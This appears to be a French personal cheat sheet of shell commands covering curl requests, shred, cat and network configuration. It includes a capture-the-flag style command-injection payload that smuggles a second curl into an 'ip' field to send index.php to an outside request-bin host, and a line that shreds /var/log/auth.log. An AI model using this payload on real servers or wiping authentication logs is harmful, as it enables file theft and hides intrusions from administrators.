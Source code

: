 ### requestbin exemple

```sh
curl -d '{ "name": "Princess Leia" }' \
  -H "Content-Type: application/json" \
  https://enirdd6d0146.x.pipedream.net/
```

### upload data

```sh
 curl -d "@data.txt" -X POST http://localhost:3000/data
 exemple avec injection de commande:
 curl -X POST -d 'ip=127.0.0.1%0acurl -X POST -d @index.php https://enzuva1p723tj.x.pipedream.net' http://challenge01.CTF.exemple/web-serveur/ch53/index.php
```

### Certificat non legitime

-k OU --insecure

## Effacement avec shred

```sh
shred test
find <dir> -type f -exec shred {} \; # suppression recursives
shred -f -n 10 /var/log/auth.log* # change les permissions (-f) et fait 10 passes (-n)
```

## cat in file

```shell
$ cat > MyFile
write the text in the console, when done press CTRL+D
Now, if you’ll open MyFile, you’ll se that it contains the text  you’ve entered. Be carefull as if the file you use is not empty, the  content will be erased before adding what you’re writting. 


cat <<EOF > print.sh
```

## Reseau

### IP

```sh
ip addr add 192.168.1.5/24 dev eth0
ifconfig eth0 192.168.1.5 netmask 255.255.255.0

ip link set eth0 [up|down]
ifconfig wlan0 down

route add default gw 192.168.1.254
```
